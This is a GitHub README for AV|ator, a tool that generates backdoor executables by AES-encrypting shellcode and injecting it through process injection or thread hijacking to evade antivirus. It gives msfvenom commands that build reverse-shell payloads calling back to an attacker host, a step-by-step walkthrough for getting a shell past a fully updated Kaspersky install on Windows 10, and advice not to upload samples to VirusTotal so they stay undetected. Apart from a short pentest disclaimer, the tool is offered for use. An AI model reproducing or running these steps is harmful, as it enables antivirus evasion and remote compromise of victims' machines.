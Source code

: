 
# AV|ator

AV|ator is a backdoor generator utility, which uses cryptographic and injection techniques in order to bypass AV detection. More specifically:
- It uses AES encryption in order to encrypt a given shellcode 
- Generates an executable file which contains the encrypted payload
- The shellcode is decrypted and injected to the target system using various injection techniques 

[https://attack.mitre.org/techniques/T1055/]:

1. Portable executable injection which involves writing malicious code directly into the process (without a file on disk) then invoking execution with either additional code or by creating a remote thread. The displacement of the injected code introduces the additional requirement for functionality to remap memory references. Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue. 

2. Thread execution hijacking which involves injecting malicious code or the path to a DLL into a thread of a process. Similar to Process Hollowing, the thread must first be suspended.

### Usage

The application has a form which consists of three main inputs (See screenshot bellow):

https://ibb.co/X24mnzW

1.	A text containing the encryption key used to encrypt the shellcode 
2.	A text containing the IV used for AES encryption 
3.	A text containing the shellcode 

The shellcode should be provided as a C# byte array. The default values contain shellcode that executes calc.exe (32bit). This example is provided as an indication of how the code should be formed (using msfvenom, this can be easily done with the -f csharp switch, e.g. msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X  LPORT=XXXX -f csharp). 

After filling the provided inputs and selecting the output path an executable is generated according to the chosen options. 


### Bypassig Kaspersky AV on a Win 10 x64 host (TEST CASE) 

Getting a shell in a windows 10 machine running fully updated kaspersky AV 

#### Target Machine: windows 10 x64 

1. Create the payload using msfvenom 

msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=10.0.2.15 LPORT=443 EXITFUNC=thread RC4PASSWORD=17DV11 -f csharp

2. Use AVIator with the following settings

Target OS architecture: x64

Injection Technique: Thread Hijacking (Shellcode Arch: x64, OS arch: x64) 

Target procedure: explorer (leave the default)

3. Set the listener on the attacker machine

4. Run the generated exe in the victim machine




### Installation

**Windows:**

Either compile the project or download the allready compiled executable from the following folder:

https://github.com/Ch0pin/AVIator/tree/master/Compiled%20Binaries

**Linux:**

Install Mono according to your linux distribution, download and run the binaries

e.g. in kali:

root@kali# apt install mono-devel 

root@kali# mono aviator.exe


### Credits
To Damon Mohammadbagher for the encryption procedure

### Disclaimer 

I developed this app in order to overcome the demanding challenges of the pentest procedure and this is the only way that the app should be used. Make sure that you have the required permission to use it against a system and never use it for illegal purposes. 
I would suggest to avoid testing the executables on solutions like virus total e.t.c. If you want to use the application for pentesting purposes I am sure you have already identified the AV used by your target, so go download a demo and make your testing offline. 

And please remember:

### DO NOT UPLOAD ANY SAMPLES TO VIRUS TOTAL 

